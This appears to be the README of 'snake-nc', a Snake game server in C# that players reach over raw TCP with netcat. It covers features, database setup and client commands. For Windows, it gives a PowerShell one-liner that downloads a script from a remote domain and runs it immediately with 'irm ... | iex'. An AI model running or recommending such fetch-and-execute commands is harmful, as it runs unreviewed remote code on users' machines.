


<div align="center">
  
  <h1>snake-nc</h1>
  <p>A classic Snake game implemented in clean and modern C#, playable over raw TCP sockets!</p>
</div>

This game doesn't require any client to play - simply start the server and enjoy the game using `netcat`!



## Features
- **Concurrency**: Hosts multiple independent game sessions at the same time, with async request handling.
- **Persistence**: Game results are saved to a database (by default, SQLite, via EF Core).
- **Configuration**: Change your username and grid size before starting.

## Setup

### Server

#### Prerequisites
- .NET 10 SDK

#### Configure the database
The server requires a database connection string for use with EF Core. Configure it using the dotnet user secrets interface:
```bash
dotnet user-secrets set "ConnectionStrings:SnakeDb" "Data Source=snake.db" --project Snake.Server
```

#### Run the server
From the root directory of the project, run:
```bash
dotnet run --project Snake.Server
```
The server will automatically apply database migrations on startup and start listening on port `4267`.

### Client

Open a new terminal window, configure raw input, and connect to the local server:
```bash
stty raw -echo; nc localhost 4267; stty sane
```

On Windows, the builtin `telnet` client is unfortunately not supported due to its limited raw mode support. 
Instead, use the following command in PowerShell, which will download a PuTTY Link client for playing.
```powershell
$a = "localhost:4267"; irm snake-nc-windows.gumienik.pl | iex
```

> [!TIP]
> You may route traffic through a TCP proxy such as `ngrok` to play the game over the internet.

Follow the on-screen prompts to enter your name, configure the grid and enjoy the game!

## License
snake-nc is licensed under MIT (see [LICENSE](LICENSE)). Feel free to modify and use it in accordance with your requirements.